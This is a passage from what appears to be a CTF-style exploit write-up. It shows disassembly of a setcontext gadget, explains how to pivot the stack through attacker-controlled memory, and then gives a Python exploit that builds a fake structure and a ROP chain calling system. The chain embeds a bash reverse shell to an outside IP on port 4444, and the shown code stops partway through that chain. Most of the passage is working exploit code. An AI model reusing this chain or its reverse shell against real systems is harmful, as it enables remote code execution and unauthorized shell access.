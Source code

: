 ```c
   0x00007f87a7523f33 <+67>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x00007f87a7523f37 <+71>:	mov    r12,QWORD PTR [rdx+0x48]
   0x00007f87a7523f3b <+75>:	mov    r13,QWORD PTR [rdx+0x50]
   0x00007f87a7523f3f <+79>:	mov    r14,QWORD PTR [rdx+0x58]
   0x00007f87a7523f43 <+83>:	mov    r15,QWORD PTR [rdx+0x60]
   0x00007f87a7523f47 <+87>:	mov    rcx,QWORD PTR [rdx+0xa8]
   0x00007f87a7523f4e <+94>:	push   rcx
   0x00007f87a7523f4f <+95>:	mov    rsi,QWORD PTR [rdx+0x70]
   0x00007f87a7523f53 <+99>:	mov    rdi,QWORD PTR [rdx+0x68]
   0x00007f87a7523f57 <+103>:	mov    rcx,QWORD PTR [rdx+0x98]
   0x00007f87a7523f5e <+110>:	mov    r8,QWORD PTR [rdx+0x28]
   0x00007f87a7523f62 <+114>:	mov    r9,QWORD PTR [rdx+0x30]
   0x00007f87a7523f66 <+118>:	mov    rdx,QWORD PTR [rdx+0x88]
   0x00007f87a7523f6d <+125>:	xor    eax,eax
   0x00007f87a7523f6f <+127>:	ret
   0x00007f87a7523f70 <+128>:	mov    rcx,QWORD PTR [rip+0x190e69]        # 0x7f87a76b4de0
   0x00007f87a7523f77 <+135>:	neg    eax
   0x00007f87a7523f79 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f87a7523f7c <+140>:	or     rax,0xffffffffffffffff
   0x00007f87a7523f80 <+144>:	ret
```

As you can see it has a lot of nice assembly instructions, we can set the `rsp` with value from `[rdx+0xa0]`. Good news is that `rdx` is taken from `rdi`, which points to memory that we control. A bit of shenanigans and we end up with final payload:


```py
SETCONTEXT = 0x40ef0
SYSTEM = 0x4c3a0
POP_RDI = 0x0000000000027765 # : pop rdi ; ret

def exploit():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT repeat('1s0', 1000)") # fix rdi MSB

    fake_struct = flat(
        b'whatever',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SETCONTEXT),
        b'/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   \x00', # padded to 8B
    )

    for v in range(1+8, 0x1d):
        if v == 0x13: # rcx
            # special case - point it to ret
            # it is being pushed on stack later, so we dont want to break our ROP
            fake_struct += p64(libc_base+POP_RDI+1)
            continue
        
        # create values that will be picked by [rdx+X] operations
        # 0x10000 is to move our new rsp a bit further so `system` function stack is able to grow
        fake_struct += p64(rdi+0x70+0x88+0x10000)

    # add padding
    for _ in range(0x10000//8):
        fake_struct += p64(0xDD)

    # ROP
    fake_struct += flat(
        p64(libc_base+POP_RDI+1), # ret to align the stack
        p64(libc_base+POP_RDI),
        p64(rdi+0x18), # reverse shell cmd
        p64(libc_base+SYSTEM),
```